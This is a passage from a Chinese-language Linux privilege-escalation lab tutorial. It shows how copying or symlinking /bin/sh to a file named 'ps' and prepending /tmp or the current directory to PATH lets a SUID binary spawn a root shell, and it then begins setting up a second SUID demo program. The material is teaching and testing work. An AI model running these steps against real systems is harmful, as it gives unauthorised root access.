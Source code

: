 [![](https://p4.ssl.qhimg.com/t01a0a62275a0649d25.png)](https://p4.ssl.qhimg.com/t01a0a62275a0649d25.png)

### <a class="reference-link" name="copy%20%E5%91%BD%E4%BB%A4"></a>copy 命令

```
cd /home/raj/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```

[![](https://p5.ssl.qhimg.com/t0191e9db321385e7b4.png)](https://p5.ssl.qhimg.com/t0191e9db321385e7b4.png)

### <a class="reference-link" name="Symlink%20%E5%91%BD%E4%BB%A4"></a>Symlink 命令

```
ln -s /bin/sh ps
export PATH=.:$PATH
./shell
id
whoami
```

注：symlink也称为符号链接，如果该目录具有完全权限，则它们将成功运行。在Ubuntu中，在符号链接的情况下，我们已将权限777授予/script目录。

因此，我们看到攻击者可以操纵环境变量PATH来进行提权并获得root访问权限

[![](https://p2.ssl.qhimg.com/t0196e3f6a697286004.png)](https://p2.ssl.qhimg.com/t0196e3f6a697286004.png)

## 

## 方法2

Ubuntu LAB SET_UP<br>
重复上述步骤配置您自己的实验环境，现在在脚本目录中，我们将编写一个小型的c程序来调用系统二进制文件的函数。

```
pwd
mkdir script
cd /script
nano demo.c
```

正如你可以在我们的demo.c文件中看到的，我们正在调用id命令，它是系统二进制文件。<br>[![](https://p5.ssl.qhimg.com/t01a8d921f638a7b1e6.png)](https://p5.ssl.qhimg.com/t01a8d921f638a7b1e6.png)

然后使用gcc编译demo.c文件，并将编译文件提升到SUID权限。

```
ls
gcc demo.c -o shell2
chmod u+s shell2
ls -la shell2
```
